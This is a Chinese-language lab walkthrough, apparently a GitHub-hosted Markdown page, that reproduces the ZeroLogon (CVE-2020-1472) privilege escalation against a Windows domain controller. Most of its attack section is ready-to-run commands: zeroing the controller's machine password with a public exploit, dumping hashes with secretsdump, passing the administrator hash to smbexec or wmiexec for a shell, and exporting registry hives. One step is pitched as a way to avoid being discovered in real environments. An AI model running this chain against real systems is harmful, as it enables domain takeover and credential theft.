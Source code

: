 # CVE-2020-1472 ZeroLogon特权提升漏洞

<font color=green>**注意事项：该过程可能会对域环境造成影响，请勿在生产环境复现**</font>

### 一、漏洞简介：

> NetLogon 远程协议是一种在 Windows 域控上使用的 RPC 接口,被用于各种与用户和机器认证相关的任务。最常用于让用户使用 NTLM 协议登录服务器，也用于 NTP 响应认证以及更新计算机域密码微软MSRC于8月11日 发布了Netlogon 特权提升漏洞安全通告。此漏洞CVE编号CVE-2020-1472， CVSS 评分:10.0。由 Secura 公司的 Tom Tervoort 发现提交并命名为 **ZeroLogon**；
> 攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在特权提升漏洞。当成功利用此漏洞时，攻击者可无需通过身份验证，在网络中的设备上运行经特殊设计的应用程序，获取域控制器的管理员权限。

### 二、影响范围：

> Windows Server 2012 (Server Core installation)
> 
> Windows Server 2012 R2
> 
> Windows Server 2012 R2 (Server Core installation)
> 
> Windows Server 2016
> 
> Windows Server 2016 (Server Core installation)
> 
> Windows Server 2019
> 
> Windows Server 2019 (Server Core installation)
> 
> Windows Server, version 1903 (Server Core installation)
> 
> Windows Server, version 1909 (Server Core installation)

### 三、需要的环境：

> 1、搭建一个简单的域环境，此处使用Windows Server 2012 R2；不会的可参考
> 
> https://blog.csdn.net/wwl012345/article/details/88934571
> 
> 2、Python环境 最好是python3
> 
> 3、安装Impacket工具包；可参考https://www.freebuf.com/sectool/175208.html
> 
> 4、EXP&POC
> 
> https://github.com/dirkjanm/CVE-2020-1472.git (EXP)
> 
> https://github.com/SecuraBV/CVE-2020-1472.git (POC)

### 四、复现过程：

> 搭建域环境->安装impacket工具包->下载POC及EXP->利用POC检测是否可利用->利用EXP置空域控密码->获得用户hash->通过hash取得一个shell->获得机器保存的原hash->通过获得的hash恢复置空域控密码

---

#### 1.1、Kali安装pip3:

```bash
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python3 get-pip.py
```

#### 1.2、下载安装Impacket工具包：

```bash
git clone https://github.com/SecureAuthCorp/impacket.gitcd /impacket
python3 setup.py install
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgFKfx7Irp7dHNWpEsmGYtzia0kZUVaQ0dvMqOKRK3POs1vwx0j9b5aZw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.3、下载POC&EXP：

```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git  CVE-2020-1472_POC
git clone https://github.com/dirkjanm/CVE-2020-1472.git  CVE-2020-1472_EXP
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgM7nILWrqa23ThGiaPvD0Qd5XUMtRmvdSSthL9yHOiaTov0HzCtS7N4NQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgJb9wv22XXbcxcaMZI0hSKmJg4BDicZQjkjH3SJEBbUNgHBabggq2vtw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.4、利用POC检测：

```bash
cd /root/github/CVE-2020-1472_POC
python3 zerologon_tester.py WIN-C6LETGR17RK 192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143639.png)

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143640.png)

#### <font color=red>1.5、利用EXP获取域控存储的hash：</font>

```
1.将域控密码置为空密码：
cd /root/github/CVE-2020-1472_EXP
python3 cve-2020-1472-exploit.py WIN-C6LETGR17RK(这是域控主机名) 192.168.5.132(这是域控ip)
2.获得域控上的hash：
cd /root/github/impacket/examples
python3 secretsdump.py tbosec.com/WIN-C6LETGR17RK\$@192.168.5.132 -no-pass
上面是 域名/域控主机名\$@域控ip
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgoIRVC0Fy0p1wqmDUABnkoBaiacz07Nb5P476fBv6eLIJUJAwjrshXYg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg1jnXp856QZA58R8aFIyhbzpcic4NLgwoJgm1Rv6IwWGaYMxQZQbibKyg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.6、使用hash登录域控：

```
cd /root/github/impacket/examples
python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 administrator@192.168.5.132
或者；建议使用👇
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:36a06e6257a0e2c2b0bb3673f6297df7 tbosec.com/administrator@192.168.5.132
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641.png)

#### 1.7、恢复域控密码：

**后面这几步非必须，但真实场景中避免影响正常业务或被发现可以恢复域控密码**

```
参考方法：
https://github.com/risksense/zerologon
1.导出sam等文件到本地，获得域控上边本地保存的置空前的hash
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143641.png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhg0hicLeRqse3MiazibrMy6qt70ZiaNDbzlmibFatEUatHl5pFcP2f8nZKMYQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.8、通过sam等文件获得原ntlm hash：

```
cd /root/github/impacket/examples
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgszo0lLa0EZXmmIHYw2mnJIhlSpwFmofViaicy85A4DcPHjpqXstgo04w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 1.9、恢复原hash：

```
git clone https://github.com/risksense/zerologon.git
cd zerologon
python3 reinstall_original_pw.py WIN-7JMG7PQ1LL8(域控主机名) 192.168.5.132 f9bca1e49fbfb7fec5fc54d80c72a79c(这是上面红框的后半部分)
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/z1MHPE7moxenprmay3gyKzOSp3D7lXhgSrYibZGYe5PWwgF6CibzFsibeUYIY9g43icpPzqp2ibwpGVn9KA8DXOwySw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 2.0、确认是否恢复成功：

**再次尝试获取hash已经不能成功了，成功恢复**

![图片](https://cdn.jsdelivr.net/gh/mask75/imgs@master/20210704143642.png)

#### 最后：

------

如果过程出现部分错误，可参考下面的帖子，前人已整理出来

http://0x3.biz/archives/1960.html
